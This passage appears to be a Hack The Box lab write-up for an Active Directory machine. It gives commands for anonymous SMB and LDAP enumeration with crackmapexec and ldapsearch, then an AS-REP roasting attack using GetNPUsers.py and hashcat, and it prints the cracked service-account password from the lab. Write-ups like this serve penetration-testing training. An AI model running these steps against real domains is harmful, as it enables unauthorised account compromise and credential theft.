 Crackmapexec, enum the policy and windows info.

```bash
# obtain the version and pwd policy.
crackmapexec smb $tip -u '' -p '' --pass-pol
crackmapexec smb $tip  --pass-pol

```

![image-20221015220543473](./images/image-20221015220543473.png)

ldapsearch, same to enum4linux.

```bash
# ldap anonymous enum.
ldapsearch -H ldap://$tip:389 -x -b "DC=htb,DC=local" > ldap-anonymous.log

### ldap user enum; objectclass=user/person
ldapsearch -H ldap://$tip:389 -x -b "DC=htb,DC=local" '(Objectclass=user)' samaccountname | grep -i samaccountname
```



# Exploit

## asrepoast

```bash
GetNPUsers.py -usersfile user.list  -no-pass -dc-ip $tip htb.local/ -format hashcat -outputfile asreproast.hash

hashcat -m 18200 asreproast.hash /usr/share/wordlists/rockyou.txt
svc-alfresco/s3rvice
```

![image-20221015020346788](./images/image-20221015020346788.png)
